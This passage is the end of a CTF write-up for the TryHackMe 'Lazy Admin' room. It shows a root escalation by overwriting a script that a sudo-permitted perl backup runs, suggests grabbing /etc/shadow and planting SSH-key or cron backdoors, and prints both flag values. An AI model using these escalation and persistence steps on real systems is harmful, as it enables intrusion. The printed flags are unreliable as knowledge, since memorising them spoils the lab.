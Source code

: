 1. Let's change the `/etc/copy.sh` file simply to run bash in interactive mode. This will land as in root's bash.

```bash
www-data@THM-Chal:/home/itguy$ echo  "/bin/bash -i" > /etc/copy.sh 
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh 
/bin/bash -i
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
root@THM-Chal:/home/itguy# whomai
No command 'whomai' found, did you mean:
 Command 'whoami' from package 'coreutils' (main)
whomai: command not found
root@THM-Chal:/home/itguy# whoami
root
```

2. The Box is PAWNEd!!!. Let's get the root flag in `/root` directory.
```bash
root@THM-Chal:~# ls
root.txt
root@THM-Chal:~# cat root.txt 
THM{********************************}
```


## EXTRA TREATS

1. We can now obtain the [following files](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Lazy%20Admin/ssh/etc) easily that can be used later.
	1. **/etc/passwd**
	2. **/etc/shadow**
	3. **/etc/hosts**
	4. **/etc/sudoers**
	5. **/etc/crontab**
	6. **/proc**

2. We can also add our *ssh keys* to `authorized_keys` to get a foothold on the box. You can use other methods like crons and process hijacking as well to plant a backdoor.

3. Find out more with the linpeas scans that can be obtained [here](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Lazy%20Admin/ssh/tmp).

## FLAGS

1. User Flag - `THM{63e5bce9271952aad1113b6f1ac28a07}`

2. Root Flag - `THM{6637f41d0177b6f37cb20d775124699f}`

**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)